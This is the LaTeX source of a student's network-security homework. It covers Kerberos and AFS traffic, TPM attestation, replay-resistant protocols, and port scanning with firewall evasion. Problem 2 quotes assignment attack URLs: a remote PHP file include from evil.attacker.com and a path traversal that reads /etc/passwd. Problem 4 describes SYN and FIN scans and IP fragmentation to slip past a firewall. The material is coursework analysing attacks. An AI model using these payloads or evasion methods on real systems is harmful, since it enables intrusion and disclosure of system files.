% Latex2e homework template for 14-741/18-631 taught by Nicolas Christin
%
\documentclass[12pt]{article}  % Decrease to 10pt if desired

\usepackage[letterpaper,margin=1in]{geometry}
\usepackage{times}
\usepackage{ragged2e}
\usepackage{lastpage}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{mathtools}
\usepackage{listings}
\usepackage{graphicx}
\usepackage[font=small,skip=0pt]{caption}
\pagestyle{fancy}
\addtolength{\parskip}{\baselineskip} %--skip lines between paragraphs
\setlength{\parindent}{0pt} %--don't indent paragraphs
\AtBeginDocument{\raggedright}

%
% Set your personal information here
%
\newcommand{\FirstName}{Shi}
\newcommand{\LastName}{Su}
\newcommand{\AndrewID}{shis}
\newcommand{\CourseNumber}{14-741}
\newcommand{\Campus}{PIT}  % Either PIT or Kobe

%
% Set assignment date here
%
\newcommand{\Date}{11/20/2015}


% Set up headers
\renewcommand{\headrulewidth}{0pt}
\setlength{\headheight}{0.5in}
\lhead{\FirstName~\LastName\\\AndrewID}
\chead{}
\rhead{\CourseNumber~/~\Campus\\\Date}
\lfoot{}
\cfoot{}
\rfoot{Page \thepage~of \pageref{LastPage}}

%Answer block
\newenvironment{answer}{
\setlength\parindent{24pt}
%\par\addvspace{\baselineskip}
}


%
% Begin document
%
\begin{document}

%
% Problem 1
%
\begin{center}
\textbf{Problem \#1 : Running Kerberos and Wireshark}
\end{center}
\parskip 0pt
 
1. Why is the last step (Step 6) optional?\\
\begin{answer}
Step 6 provides server authentication to client, for V is able to decrypt \(K_C,_V\) to retrieve \(TS_5\), which can be optional since client will know the server is valid if correct access is grant.
\end{answer}
\medskip

2. kinit\\
(a) Which version of Kerberos are you running? \\
\begin{answer}
Kerberos version 5
\end{answer}
\medskip

(b) What is the server name? (AS))\\
\medskip
\begin{answer}
krbtgt/ANDREW.CMU.EDU
\end{answer}
\medskip

(c) What is the client name? (C)\\
\begin{answer}
shis
\end{answer}
\medskip

(d) What encryption method is being used?\\
\begin{answer}
aes256-cts-hmac-sha1-96
\end{answer}
\medskip

(e) What is the encrypted value of the ticket TicketTGS in the lecture notes (use only the first 8 hexadecimal digits)?\\
\begin{answer}
First 8 hexadecimal digits: 72BE3CCE
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.5]{ENCRYPT-TICKET.png}\\
 \caption{Encrypt Ticket}
 \end{figure}
\end{answer}
\medskip

3. Provide the output of klist. How many tickets are currently valid? For how long are they valid? Who are the principals involved?\\
\begin{answer}
\bigskip
 1 valid ticket, valid for 10 hours. Involved principles: {\bf shis}, {\bf krbtgt/ANDREW.CMU.EDU}
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.6]{klist1.png}\\
 \caption{klist 1}
 \end{figure}

\end{answer}
\medskip

\newpage
4. AFS\\
(a) Show the four Kerberos messages that preside over the establishment of the AFS connection.
%\begin{answer}
\begin{itemize}
  \setlength{\itemsep}{1pt}
  \setlength{\parskip}{0pt}
  \setlength{\parsep}{0pt}
  
\item AS-REQ: client requests access to TGS
\begin{figure}[h]
\centering
 
\includegraphics[scale=0.5]{AS-REQ.png}\\
 \caption{AS-REQ}
 \end{figure}
 
\item AS-REP: AS grants \(Ticket_{TGS}, K_{C,TGS}\) to client
\begin{figure}[h]
\centering
 
\includegraphics[scale=0.5]{AS-TICKET.png}\\
\caption{AS-REP}
\end{figure}

\newpage 
  \item TGS-REQ: Client requests \(Ticket_{AFS}\) from TGS
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.43]{TGS-REQ.png}\\
 \caption{TGS-REQ}
 \end{figure}
 
 \item TGS-REP: TGS grants ticketV and \(K_C,_{AFS}\) to client
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.43]{TGS-REP.png}\\
 \caption{TGS-REP}
 \end{figure}
 
 %\newpage
 \item AFS Challenge and Response: client sends \(Ticket_{AFS}\) to AFG
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.45]{CHALLENGE.png}
 \caption{AFS-CHALLENGE-RESPONSE}
 \end{figure}
 
\end{itemize}

%\end{answer}
%\medskip

\newpage
(b) What is the name of the AFS server? (V )\\
\begin{answer}
afs
\end{answer}
\medskip

(c) Show that the ticket(TicketTGS) the authentication server gave you is sent to the ticket granting server.\\
\begin{itemize}
  \setlength{\itemsep}{0pt}
  \setlength{\parskip}{0pt}
  \setlength{\parsep}{0pt}

\item Ticket got from AS-REP, start with hex: 7751AFC7
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.45]{AS-TICKET.png}\\
 \caption{TicketTGS in AS-REP}
 \end{figure}


 \item Ticket sent in TGS-REQ, start with hex: 7751AFC7
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.45]{TGS-REQ-TICKET.png}\\
 \caption{TicketTGS in TGS-REQ}
 \end{figure}
  
 \end{itemize}
\medskip

\newpage
(d) Identify the ticket that the TGS returned to you (TicketV ), and show that it is sent to the AFS server when you are trying to create the file 14741-test.\\
\begin{itemize}
  \setlength{\itemsep}{1pt}
  \setlength{\parskip}{0pt}
  \setlength{\parsep}{0pt}
  
\item Ticket got from TGS-REP, start with hex: 8D054986
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.5]{TGS-REP-TICKET.png}\\
 \caption{TicketV in TGS-REP}
 \end{figure}
 
 \item Ticket sent to AFS, start with hex: 8D054986
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.5]{AFS-TICKET.png}\\
 \caption{TicketV in afs challenge response}
 \end{figure}
  
 \end{itemize}
\medskip

\newpage
5. Once again, provide the output of klist. How many tickets are currently valid? For how long are they valid? Who are the principals involved?\\
\begin{answer}
There're 2 valid ticket, valid for 10 hours. \\
First ticket involves principles: {\bf shis} and {\bf krbtgt/ANDREW.CMU.EDU}\\
Second ticket involves principles {\bf shis} and {\bf afs}
\begin{figure}[h]
\centering
  
\includegraphics[scale=0.6]{klist2.png}\\
 \caption{klist with afs}
 \end{figure}
\end{answer}


%
% Problem 2
%
\newpage
\begin{center}
\textbf{Problem \#2 : TPM, PHP, and HTTP}
\end{center}

1. ``But since the server is running HTTPS, it is perfectly secure." Explain why this reasoning is completely flawed.\\
\begin{answer}
HTTPS only encrypts the connection and ensures confidentiality, but will still loyally pass the malicious input string to the unprotected php server. So the system is still vulnerable to the file include attack mentioned above.
\end{answer}
\bigskip

2. Whether or not the TPM could prevent the attacks from succeeding. If the attacks can be foiled, explain how. If they cannot, state why:\\
\begin{answer}
\begin{itemize}
\item  https://10.0.0.1/index.php?TOKEN\_TYPE=http://evil.attacker.com/exploit?\\
This attack can be foiled by TPM, each program will be verified by local or remote verifier at load time, as when loading the downloaded program, PCRs will be update with contents that are unknown to the verifier, thus the exploit program cannot pass the attestation.

\item https://10.0.0.1/index.php?TOKEN\_TYPE=/tmp/exploit\\
This attack can be foiled by TPM, each program will be verified by local or remote verifier at load time, as when loading the uploaded program, PCRs will be update with contents that are unknown to the verifier, thus the exploit program cannot pass the attestation.

\item https://10.0.0.1/index.php/index.php?TOKEN\_TYPE=../../../../../. ./../../etc/passwd\%00\\
This attack cannot be foiled by TPM, as the index.php already been attested by TPM, and it tries to load the file already existed on the router, the process doesn't modify anything on the device, so the attack can be carried out. 
\end{itemize}

\end{answer}
\medskip

3. Is the update procedure secure? Justify your answer, by either proving its security, or giving an example of attack against it.\\
\begin{answer}
The update procedure is not secure.\\
1) After the file BIOS.COM is downloaded, there's no step to verify the checksum of the file, so we cannot be sure about its data integrity, might be possible that the file got corrupted during transfer or being changed by attacker.\\
2) After new firmware updated, the content of PCRs will also be changed, which might cause problem for accessing the data sealed by old PCR values. [1]\\ 
%3) Besides, the TPM only attests all {\bf software} on the router, there's no verification for the firmwares.

\end{answer}
\medskip
[1] Thinkwiki.org,. (2015). Embedded Security Subsystem - ThinkWiki. Retrieved 23 November 2015, from http://www.thinkwiki.org/wiki/Embedded\_Security\_Subsystem

%
% Problem 3
%
\newpage
\begin{center}
\textbf{Problem \#3 : Alice and Bob getting married}
\end{center}

1. Which security property/ies Bob's protocol enforces?
\begin{answer}
\begin{itemize}
  \setlength{\itemsep}{1pt}
  \setlength{\parskip}{0pt}
  \setlength{\parsep}{0pt}
	\item Enforces confidentiality by encrypt the message with receiver's public key
	\item Enforces authentication by encrypt the user digital signature with the message.
\end{itemize}

\end{answer}
\bigskip

2. Show that Alice's father is wrong? in that one of the security properties Bob's protocol enforces is not maintained anymore.\\
\begin{answer}
Authentication is no longer maintained, because everyone can acquire A,B's public key, if the digital signature of message sender is not encrypted with the message, attackers can easily forge a message.

\end{answer}
\bigskip

3. Bob?s protocol unfortunately has a major problem: It is vulnerable to a replay attack in case the same message X is repeated over time. Enhance the protocol proposed by Bob to prevent this attack.\\
%\begin{answer}
Assume that the A, B sent with message are the digital signature of entity A, B
\begin{enumerate}
  \setlength{\itemsep}{1pt}
  \setlength{\parskip}{0pt}
  \setlength{\parsep}{0pt}
  	\item A sends \(\big\{A, N_A\big\}KU_B\) to B, 
	\item B sends\(\big\{B, N_A, N_B\big\}KU_A\) to A, 
	\item A sends\(\big\{  A, X, N_B  \big\}KU_B\) to B
	\item B in turn acknowledges receipt by sending \(\big\{B, X\big\}KU_A\) to A\\
 \end{enumerate}
Where \(N_A, N_B\) are random nonce that are only used once, \(KU_A, KU_B \) are the public keys of A and B.\\
Use different random nonce for every message to ensure same message cannot be replayed.
%\end{answer}

\bigskip

4. Enhance the protocol proposed by Bob to provide the freshness property.\\
%\begin{answer}
Assume that the A, B sent with message are the digital signature of entity A, B.
\begin{enumerate}
  \setlength{\itemsep}{1pt}
  \setlength{\parskip}{0pt}
  \setlength{\parsep}{0pt}
  	\item A sends \(\big\{A, N_A, T_1\big\}KU_B\) to B, 
	\item B sends\(\big\{B, N_A, N_B, T_2\big\}KU_A\) to A, 
	\item A sends\(\big\{  A, X, N_B, T_3  \big\}KU_B\) to B
	\item B in turn acknowledges receipt by sending \(\big\{B, X, T_3+1\big\}KU_A\) to A\\
 \end{enumerate}
Where \(N_A, N_B\) are random nonce that are only used once, \(KU_A, KU_B \) are the public keys of A and B, \(T_1, T_2, T_3\) are timestamps.\\
Use different random nonce for every message to ensure same message cannot be replayed. Assume that A and B have synchronized clock, use timestamp to show freshness.

%\end{answer}
\medskip

%
% Problem 4
%
\newpage
\begin{center}
\textbf{Problem \#4 : Finding open ports and bypassing firewalls}
\end{center}

1. Suggest a technique to exhaustively determine all the open TCP ports on a given host you want to attack.\\
\begin{answer}
Assume that we know the target's ip address and it is not behind a firewall. 
\begin{enumerate}
  \setlength{\itemsep}{1pt}
  \setlength{\parskip}{0pt}
  \setlength{\parsep}{0pt}
	\item Craft a TCP packet with destination port set to target port and only SYN flag set.
	\item Send it to the target host 
		\begin{itemize}
			\item If host replies SYN-ACK, mark the target port as open, and send a RST packet to host to close the half-open connection and avoid SYN flooding.
			\item If host replies RST, then the target port is closed. 	
		\end{itemize}
	\item Repeat previous steps for all 65535 ports.
\end{enumerate}
\end{answer}
\medskip

2. Harry Bovik claims the attack consumes a lot of memory on the attacker's side. Is he right or not? Why?\\
\begin{answer}
No, with SYN scan attacker doesn't need to maintain any open or half open connection, it only sent a SYN packets, which is lightweight, to each port on target server and check the responses, so the memory consumption should be low.

\end{answer}
\medskip

3. Suggest an alternative method to determine all the open TCP ports on the host you want to attack.\\
\begin{answer}
Assume that we know the target's ip address and it is not behind a firewall. 
\begin{enumerate}
  \setlength{\itemsep}{1pt}
  \setlength{\parskip}{0pt}
  \setlength{\parsep}{0pt}
	\item Craft a TCP packet with destination port set to target port and only FIN flag set.
	\item Send it to the target host 
		\begin{itemize}
			\item If no reply from host for a certain amount of time, send the packet again. Repeat the process for several time, if no reply ever come back, then mark the port as open.
			\item If host replies RST, then the target port is closed. 	
		\end{itemize}
	\item Repeat previous steps for all 65535 ports.
\end{enumerate}
\end{answer}
\medskip

4. Harry Bovik tells you that neither of these attacks work to determine all open ports on a packet filtering layer-3 firewall. Why is he right?\\
\begin{answer}
Packet filtering firewalls have filter rules to determine which packet is allowed to pass, based on the information about packet protocol, ip address, port number and packet type. It checks every packet trying to pass through it against those filter rules, the offending packet will be dropped. For example if an attacker trying to send a packet to a filtered port, while the source ip address, port and protocol is not specified in the firewall's ACL, then the probe packet will be denied and dropped. So if some ports are filtered by the firewall, we can know they are filtered but cannot tell whether they are open or not.

\end{answer}
\medskip

5. Suggest an extension to either of the above attacks that allows to figure out open ports on a firewall.\\
\begin{answer}
Assume that we know the target's ip address and the firewall will not queue and reassemble ip fragments. Based on SYN scan, we can break the probe packet into small ip fragments, so that the TCP header will be split into different packets, so make it will make it harder for firewall to apply filter rules on them.

\end{answer}
\medskip

\end{document}